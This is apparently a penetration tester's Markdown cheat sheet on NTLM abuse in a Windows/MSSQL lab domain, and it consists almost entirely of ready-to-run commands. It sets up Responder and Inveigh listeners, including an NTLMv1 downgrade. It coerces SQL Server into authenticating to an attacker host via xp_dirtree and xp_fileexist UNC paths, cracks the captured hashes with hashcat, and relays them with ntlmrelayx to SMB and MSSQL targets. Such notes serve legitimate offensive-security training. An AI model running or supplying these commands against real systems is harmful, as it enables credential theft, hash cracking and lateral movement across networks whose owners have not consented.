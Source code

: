 # NTLM Abuse

## Resources

- https://github.com/NetSPI/PowerUpSQL/wiki/SQL-Server---UNC-Path-Injection-Cheat-Sheet


# Hash Capture
## Listener Setup
### Windows

```PowerShell
# Ensure running as administrator
# For best results disable listener host firewall
Invoke-Inveigh -IP 192.168.203.10 -NBNS Y -ConsoleOutput Y
Inveigh.exe
```
### Linux
```bash
# Standard Execute
sudo responder -I tun0

# If attempting NTLMv1 downgrade
sudo nano /usr/share/responder/Responder.conf

# <-- Snip -->
# ; Custom challenge.
# ; Use "Random" for generating a random challenge for each requests (Default)
# Challenge = 1122334455667788

```
## Perform Coercion
### Windows
If Invoking Inveigh within PowerUpSQL use the command below.
```poweshell
Invoke-SQLUncPathInjection -Verbose -CaptureIp "192.168.234.10" | Select-Object NetNTLMv2, NetNTLMv1, Cleartext | Format-Table -AutoSize -Wrap | Tee-Object $HOME\CapturedUNC.txt -Encoding "ASCII"
```
Otherwise, a more manual approach can be taken when using Inveigh in a seperate console window or using a different listener such as Responder or ntlmrelayx.

```powershell
Get-SQLInstanceDomain -verbose | Get-SQLQuery -TimeOut 20 -Query "xp_dirtree '\\192.168.203.10\NOT_A_REAL_SHARE'" -Verbose | out-null
Get-SQLInstanceDomain -verbose | Get-SQLQuery -TimeOut 20 -Query "xp_fileexist  '\\192.168.203.10\NOT_A_REAL_SHARE'" -Verbose | out-null
```

### SQLRecon
```powershell
.\SQLRecon.exe /a:WinToken /h:DC01 /m:smb /unc:\\192.168.45.223\NOT_A_REAL_SHARE
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:smb /unc:\\192.168.45.223\NOT_A_REAL_SHARE
```
### Linux
```
mssqlclient.py -dc-ip 192.168.203.10 corp1.com/offsec:lab@192.168.203.6 -windows-auth
SQL> EXEC xp_dirtree '\\192.168.45.223\NOT_A_REAL_SHARE';
SQL> EXEC xp_fileexist '\\192.168.45.223\NOT_A_REAL_SHARE';
```

## Hash Cracking
```bash
# NTLMv2
hashcat -m 5600 -a 0 -O Hashes\NTLMv2.txt Wordlists\rockyou.txt -r rules\Best64.rule

# NTLMv1
hashcat -m 5500 -a 0 -O Hashes\NTLMv2.txt Wordlists\rockyou.txt -r rules\Best64.rule
```

# Hash Relaying
## SMB Relaying
### Windows
```
.\divertTCPConn.exe 445 8445
.\ntlmrelayx.exe -t smb://192.168.203.6 --no-http-server -smb2support --smb-port 8445
```

### Linux
```
ntlmrelayx.py -t smb://192.168.203.6 --no-http-server -smb2support
```
## MSSQL Relaying
### Windows
```powershell
# Not sure if there is a windows solution as ntlmrelayx.exe has an
# issue with SSL protocols on Windows with MSSQL relaying :(
```
### Linux
```python
# Simple MSSQL query
ntlmrelayx.py -t mssql://192.168.203.5 -i --no-http-server -smb2support -q "select @@version;' -q ' select user_name();"

# We can even go deeper and relay to MSSQL and perform an additional UNC path injection command on the target system
ntlmrelayx.py -t mssql://192.168.203.6 --no-http-server -smb2support -q "EXEC xp_dirtree '\\\\192.168.45.223\NOT_A_REAL_SHARE';" 
```
